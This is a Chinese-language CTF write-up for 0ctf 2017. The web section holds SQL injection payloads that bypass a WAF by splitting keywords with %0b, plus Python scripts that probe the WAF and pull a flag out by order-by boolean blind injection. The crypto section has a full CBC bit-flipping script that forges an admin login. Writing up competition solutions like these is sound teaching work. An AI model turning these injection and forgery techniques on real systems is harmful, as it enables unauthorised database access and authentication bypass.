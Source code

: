 ```yaml
---
title: 0ctf2017 writeup
pubDatetime: 2017-03-19 20:00:00 +08:00
tags:
  - ctf
description: Already Archive Before 20230604
postSlug: archive_0ctf2017_writeup
---
```


结果高校第 9, 水啊

<!--more-->

### Web

#### simplesqlin

`id`先丢 sqlmap,发现能跑出来数据库名`news`

`order by 4` 500, `order by 3`正常

绕 waf 试试看, 发现简单的 select,from 通过%0b 即可绕过

`select` -> `sele%0bct`

直接 `id=-1 union sel%0bect 1,flag,3 fro%0bm news.flag`猜测表名和字段为 flag

`flag{W4f_bY_paSS_f0R_CI}`

#### Temmo's Tiny Shop

中午起床解这个题, login 那里上午有 bug,直接 admin 密码空可以进(其实这里面有竞争条件去买 8000 的 hint),看到 info 提示的内容(中间还换过一个表名)

`OK! Now I will give some hint: you can get flag by use \`select flag from ce63e444b0d049e9c899c9a0336b3c59\``

然后写个脚本测试一下 waf 的字符

```python
#!/usr/bin/python3
import re
import string
import requests as r

url = 'http://202.120.7.197/app.php?action=search&keyword=INT&order='
headers = {
	'Cookie': "PHPSESSID=tbuidum4os7k89q7dun6oms200",
}
NOWAF = []
WAF = []
for i in string.punctuation + string.ascii_letters:
	getter = r.get(url + i, headers=headers).text
	if 'error occurs or no result here' in getter:
		NOWAF.append(i)
		print('NoWAF: ' + i)
	elif 'WAF' in getter:
		WAF.append(i)
		print('WAF: ' + i)
	else:
		print(getter)
		exit()
print(WAF)
print(NOWAF)
```

发现只有`#,()`和字母可以用,关键词没测,用的时候再说

尝试了一些传参数的位置, 因为不能单引号, 也绕不过这个 waf, 下手只能在搜索的`order`位置上,先通过`=1`和`=id`确认是`order by`注入,通过顺序不同考虑 bool 注入

注册一个新号防干扰, 买 1600 和 300 的, 通过利用`field(price, 1600, 300)`和`field(price, 1600, 1)`返回的 goods 顺序不同,构造 payload

`order=field(price,1600,if(mid((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),%d,1)like(%s),300,1))`

因为是 like, 不跑 2 分, 上多线程

```python
import requests as r
import gevent
from gevent.monkey import *

url = 'http://202.120.7.197/app.php?action=search&keyword=&order=field(price,1600,if(mid((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),%d,1)like(%s),300,1))'
def run(k):
#	print('----%d----' % k)
	a = 0
	for i in range(0, 255):
		if a == 4:
			break
		s = r.get(url % (k,hex(i)), headers=headers).text
	#	print(s)
		if '"goods":[{"id":"6","' not in s:
			print('%d: %s' % (k, chr(i)))
			a += 1
		else:
			continue

gevent.monkey.patch_socket()
gevent.monkey.patch_ssl()

threads = [gevent.spawn(run, i) for i in range(6,31)]
gevent.joinall(threads)
```

拿到每一位去掉`%_`,得到大小写不明的`flag{r4ce c0nditi0n i5 excited}`

尝试用 ascii 判断 ascii 码, 发现(长度)被 WAF, 先试一下 flag 对不对再说

中间补上`_`, 小写尝试一下, flag 正确

### Misc

#### Welcome

IRC 即时聊天，访问 freenode 网站进入聊天室，获得 flag
http://webchat.freenode.net/?randomnick=0&channels=#0ctf2017

### Crypto

#### integrity

题目流程：

1. 首先随机 key
2. register： 输入 name，首先对 name 补足后缀，随机 iv，返回 AES_CBC( md5(name) || name ) 作为 secret
3. login： 用户输入 secret，按 register 逆着解码得到 name，若为 admin，则给出 flag

其中限制：输入的 name 长度不大于 32，且对 name 有 strip() 操作。

我们的目标为 admin，对此构造 name，并预先计算补全与 md5 值。

```python
name = "admin" + "\x0b" * 11 + suffix  # suffix 为任意长度小于 16 的字符串，我取的是 suffix = "admin"）
goal = "admin"  # 目标为 admin

pad_name = pad(name)  # "admin" + "\x0b" * 11 + "admin" + "\x0b" * 11
pad_goal = pad(goal)  # "admin" + "\x0b" * 11

md5_name = md5(name).digest()
md5_goal = md5(goal).digest()
```

提交 name 后获得一个代表了 64 字节的 secret，取出 iv 和 前两组密文，即前 48 字节，有一组 iv，一组 md5 值，一组一半的 name（即 pad_goal）。
其中第三组已符合要求，对于第二组，修改第一组的 iv 进行比特翻转攻击：iv = iv ⊕ md5_name ⊕ md5_goal
三组重新组合后 login 即可获取 flag

完整脚本：

```python
import hashlib
import socket
import time
import binascii


BS = 16
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS)
def md5(s):
    return hashlib.md5(s.encode()).digest()
def send(m):
    if isinstance(m, str):
        m = m.encode()
    print("send:", m)
    s.send(m)
def rec():
    m = s.recv(1024)
    print("recv:", m)
    return m


s = socket.socket()
s.connect(('202.120.7.217', 8221))
time.sleep(0.5)
md5_goal = [int(x) for x in md5("admin" + "\x0b" * 11)]
md5_name = [int(x) for x in md5("admin" + "\x0b" * 11 + "admin" + "\x0b" * 11)]

rec()
send("r\n")
send("admin" + "\x0b" * 11 + "admin\n")
rec()

data = rec().decode().replace('\n', '')
secret = [0] * 48
for i in range(0, 48):
    secret[i] = int(data[(i << 1): (i << 1) + 2], 16)
new_secret = [secret[i] ^ md5_goal[i] ^ md5_name[i] for i in range(16)] + secret[16:]
ans = b""
for x in new_secret:
    ans += bytes([x])

send("l\n")
send(binascii.b2a_hex(ans) + b"\n")
rec()
rec()
s.close()

```

### Reverse

#### Choices

看了一下 text 里的命令行，这是是一个 pass，llvm 的 pass，估计是做混淆的，看到 flatten 这个函数名，估计是拿 ollvm 改了改，获得源码一对照就知道改了什么地方。

Flatten 算法实现http://ac.inf.elte.hu/Vol_030_2009/003.pdf ,他修改的地方就是原本自动修改的控制控制流的值变成由用户输入了，那么我还原出这个值序列即可，通过逆向我们知道了值序列的生成算法，那么我们就可以生成一个值序列了。以这个作为输入即可。
